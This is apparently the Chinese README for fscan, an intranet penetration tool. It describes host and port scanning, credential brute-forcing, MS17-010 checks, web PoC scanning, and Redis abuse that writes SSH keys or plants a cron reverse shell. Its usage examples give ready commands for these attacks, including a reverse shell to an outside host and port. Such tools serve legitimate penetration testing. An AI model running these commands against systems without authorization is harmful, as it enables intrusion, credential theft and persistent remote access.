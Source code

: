 # fscan

# 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

## 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb等)
* 数据库密码爆破(mysql、mssql、redis、psql等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务
* ssh命令执行

6.其他功能:
* 文件保存

## usege
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
```
编译命令
```
go build -ldflags="-s -w " -trimpath
```

完整参数
```
   -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -cookie string
        set poc cookie
  -debug
        debug mode will print more error info
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9200,11211,270179098,9448,8888,82,8858,1081,8879,21502,9097,8088,8090,8200,91,1080,889,8834,8011,9986,9043,9988,7080,10000,9089,8028,9999,8001,89,8086,8244,9000,2008,8080,7000,8030,8983,8096,8288,18080,8020,8848,808,8099,6868,18088,10004,8443,8042,7008,8161,7001,1082,8095,8087,8880,9096,7074,8044,8048,9087,10008,2020,8003,8069,20000,7688,1010,8092,8484,6648,9100,21501,8009,8360,9060,85,99,8000,9085,9998,8172,8899,9084,9010,9082,10010,7005,12018,87,7004,18004,8098,18098,8002,3505,8018,3000,9094,83,8108,1118,8016,20720,90,8046,9443,8091,7002,8868,8010,18082,8222,7088,8448,18090,3008,12443,9001,9093,7003,8101,14000,7687,8094,9002,8082,9081,8300,9086,8081,8089,8006,443,7007,7777,1888,9090,9095,81,1000,18002,8800,84,9088,7071,7070,8038,9091,8258,9008,9083,16080,88,8085,801,5555,7680,800,8180,9800,10002,18000,18008,98,28018,86,9092,8881,8100,8012,8084,8989,6080,7078,18001,8093,8053,8070,8280,880,92,9099,8181,9981,8060,8004,8083,10001,8097,21000,80,7200,888,7890,3128,8838,8008,8118,9080,2100,7180,9200")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 5)
```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](image/2020-12-12-13-34-44.png)

`fscan.exe -h 192.168.x.x -p 139 (netbios探测、域控识别,下图的[+]DC代表域控)`
![](image/netbios.png)

`go run .\main.go -h 192.168.x.x/24 -m netbios(-m netbios时,才会显示完整的netbios信息)`
![](image/netbios1.png)

## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc

# 404StarLink 2.0 - Galaxy
![](https://github.com/knownsec/404StarLink-Project/raw/master/logo.png)

fscan 是 404Team [星链计划2.0](https://github.com/knownsec/404StarLink2.0-Galaxy) 中的一环，如果对fscan 有任何疑问又或是想要找小伙伴交流，可以参考星链计划的加群方式。

- [https://github.com/knownsec/404StarLink2.0-Galaxy#community](https://github.com/knownsec/404StarLink2.0-Galaxy#community)


## 最近更新
[+] 2021/4/22 修改webtitle模块,加入gbk解码  
[+] 2021/4/21 加入netbios探测、域控识别  
[+] 2021/3/4 支持-u url或者-uf url.txt,对url进行批量扫描  
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml  
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理